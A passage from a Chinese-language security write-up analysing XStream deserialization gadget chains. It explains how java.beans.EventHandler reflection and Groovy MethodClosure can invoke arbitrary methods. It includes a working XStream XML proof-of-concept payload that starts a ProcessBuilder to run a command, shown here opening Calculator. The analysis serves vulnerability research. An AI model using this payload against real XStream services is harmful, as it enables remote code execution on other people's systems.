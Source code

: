 继续往下看

![](https://p4.ssl.qhimg.com/t013c15fb99d847f5c5.png)

后续的就是经典的java反射机制来实现函数调用，并且这里的target和action都是可控的。

这里需要注意一个问题是，这里action函数参数是有要求的（看452行到461行）

1.  无参数
2.  单个参数，且参数的类型为`Comparable`，并且这个action函数是可利用的

第2种还没有找到这样可利用的函数，这里的第一种可以提两种：

*   配置好cmd的`ProcessBuilder`，action填`start`
*   配置好rmi url的`JdbcRowSetImpl`，action填`getDatabaseMetaData`，这里可以举一反三，主要思路就是可利用的getters

现在再来看看具体的[POC](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/EventHandler.java)

```null
<sorted-set>  
  <string>foo</string>
  <dynamic-proxy> 
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>/System/Applications/Calculator.app</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>

```

### 2\. Groovy ConvertedClosure

**利用条件**：groovy <= 2.4.3，在后续的版本里，`MethodClosure`不允许反序列化调用。

除了上面这种`EventHandler`的动态代理方式，Groovy的`ConvertedClosure`也同样可以达到这种效果

### MethodClosure

当前MethodClosure的主要作用就是封装我们需要执行的对象，比如

```null
new MethodClosure(Runtime.getRuntime(), "exec");

```

封装`Runtime`对象，并设定后续需要调用的函数`exec`

### ConvertedClosure
